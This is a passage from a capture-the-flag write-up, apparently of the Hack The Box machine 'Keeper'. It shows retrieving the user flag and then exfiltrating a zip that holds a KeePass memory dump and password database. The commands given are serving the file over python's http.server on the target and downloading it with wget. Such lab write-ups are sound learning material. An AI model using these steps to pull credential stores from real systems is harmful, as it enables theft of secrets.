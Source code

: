 ### **User Flag**  

What!? We just got he first flag! Easy peasy lemon squeezy! This one was pretty quick! Thanks Recon :heart_exclamation:  
```bash
lnorgaard@keeper:~$ cat user.txt
#* * * ALERT * * * * * * * * * * * * * * * * 
#* If you really want to see this flag, go * 
#* to FLAG CODES at the bottom of the page *
#* * * * * * * * * * * * * * * * * * * * * *
```

---

## 🪲 **Vulnerability Scan**

We know that this user has stored a Keypass Dump file into home directory. Looking into the user files, one file got my attention:
```bash
-rw-r--r-- 1 root      root      87391651 Dec 27 19:50 RT30000.zip
```

Let's ex-filtrate this file to get a look into it:
```bash
lnorgaard@keeper:~$ python3 -m http.server 12345
Serving HTTP on 0.0.0.0 port 12345 (http://0.0.0.0:12345/) ...
10.10.14.12 - - [27/Dec/2023 19:57:27] "GET /RT30000.zip HTTP/1.1" 200 -
```

Getting the file from the Attacker Machine
```bash
wget http://10.10.11.227:12345/RT30000.zip
--2023-12-27 13:57:28--  http://10.10.11.227:12345/RT30000.zip
Connecting to 10.10.11.227:12345... connected.
HTTP request sent, awaiting response... 200 OK
Length: 87391651 (83M) [application/zip]
Saving to: ‘RT30000.zip’

RT30000.zip                  100%[===========================================>]  83.34M   754KB/s    in 5m 1s   

2023-12-27 14:02:30 (283 KB/s) - ‘RT30000.zip’ saved [87391651/87391651]
```

Extracting the `.zip`
```bash
unzip RT30000.zip -d RT30000     
Archive:  RT30000.zip
  inflating: RT30000/KeePassDumpFull.dmp  
 extracting: RT30000/passcodes.kdbx 
cd RT30000                         
ll
total 247464
-rwxr-x--- 1 user user 253395188 May 24  2023 KeePassDumpFull.dmp
-rwxr-x--- 1 user user      3630 May 24  2023 passcodes.kdbx
```
